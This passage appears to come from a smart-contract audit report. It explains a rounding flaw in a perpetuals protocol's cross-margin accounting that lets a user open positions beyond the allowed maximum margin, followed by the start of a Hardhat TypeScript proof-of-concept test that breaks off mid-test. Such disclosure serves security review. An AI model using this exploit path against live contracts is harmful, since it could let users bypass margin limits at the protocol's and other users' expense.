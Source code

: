 this happens because (balance.amount - balance.usedAmount) will not be "0" and when this number multiplied by the discount it will not result "0" as intended. 

In the end, Bob can keep opening positions until the position margin is lesser than the minimum margin in USD. 

**Coded PoC:**
```typescript
it("Open positions that are more than allowed max margin", async function () {
		const wbtcAm = precision.token(1); // 1 btc
		// fund user0
		await deposit(fixture, {
			account: user0,
			token: wbtc,
			amount: wbtcAm,
		});

		const oracleBeginning = [
			{
				token: wbtcAddr,
				targetToken: ethers.ZeroAddress,
				minPrice: precision.price(25_000),
				maxPrice: precision.price(25_000),
			},
			{
				token: usdcAddr,
				targetToken: ethers.ZeroAddress,
				minPrice: precision.price(99, 6),
				maxPrice: precision.price(99, 6),
			},
		];

		let crossAvailableValue = await accountFacet.getCrossAvailableValueTapir(
			user0.address,
			oracleBeginning
		);
		console.log("Cross available beginning", crossAvailableValue);

		const orderMargin = precision.token(24_750); // 24_750 because 1% discount
		const executionFee = precision.token(2, 15);
		const tx = await orderFacet.connect(user0).createOrderRequest(
			{
				symbol: btcUsd,
				orderSide: OrderSide.LONG,
				posSide: PositionSide.INCREASE,
				orderType: OrderType.MARKET,
				stopType: StopType.NONE,
				isCrossMargin: true,
				marginToken: wbtcAddr,
				qty: 0,
				leverage: precision.rate(10),
				triggerPrice: 0,
				acceptablePrice: 0,
				executionFee: executionFee,
				placeTime: 0,
				orderMargin: orderMargin,
				isNativeToken: false,
			},
			{
				value: executionFee,
			}
		);

		await tx.wait();

```
